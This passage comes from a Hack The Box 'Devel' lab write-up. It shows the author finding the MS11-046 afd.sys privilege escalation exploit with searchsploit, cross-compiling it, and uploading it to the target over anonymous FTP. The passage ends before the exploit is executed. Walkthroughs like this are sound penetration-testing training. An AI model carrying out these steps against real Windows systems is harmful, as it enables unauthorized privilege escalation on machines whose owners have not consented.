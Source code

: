 ```
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.253.47
                                 [02]: fe80::fc7d:fa80:da7b:5c3a
                                 [03]: dead:beef::8815:9f26:3fd7:3dc1
                                 [04]: dead:beef::fc7d:fa80:da7b:5c3a

c:\windows\system32\inetsrv>

```
Using some [Google Fu to find an exploit for this Windows version](https://www.google.com/search?q=6.1.7600+n%252Fa+build+7600+exploit&) results in a hit to exploit-db. It has the EDB-ID : 40564
This exploit can be found with searchsploit as well and we can even copy it to our working directory by using the `-m` argument followed by the EDB-ID.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Devel]
└─$ searchsploit -m 40564                  
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
    Codes: CVE-2011-1249, MS11-046
 Verified: True
File Type: C source, ASCII text
Copied to: /home/emvee/Documents/HTB/Devel/40564.c

```
We should check the source code for what the exploit is doing.

![Image](/assets/img/WriteUp/HTB/Devel/Pasted image 20230404174254.png){: width="700" height="400" }

It looks like we should compile the exploit so it can be run on the target.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Devel]
└─$ i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32 
```
Now we should tranfser the exploit to the target. The target does have a FTP service running where we can upload files. This will safe us some time.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Devel]
└─$ ftp $ip -a
Connected to 10.129.253.47.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
ftp> bin
200 Type set to I.
ftp> put MS11-046.exe
local: MS11-046.exe remote: MS11-046.exe
229 Entering Extended Passive Mode (|||49162|)
125 Data connection already open; Transfer starting.
100% |***********************************************************************|   234 KiB  892.63 KiB/s    00:00 ETA
226 Transfer complete.
240005 bytes sent in 00:01 (144.29 KiB/s)
ftp> 

```
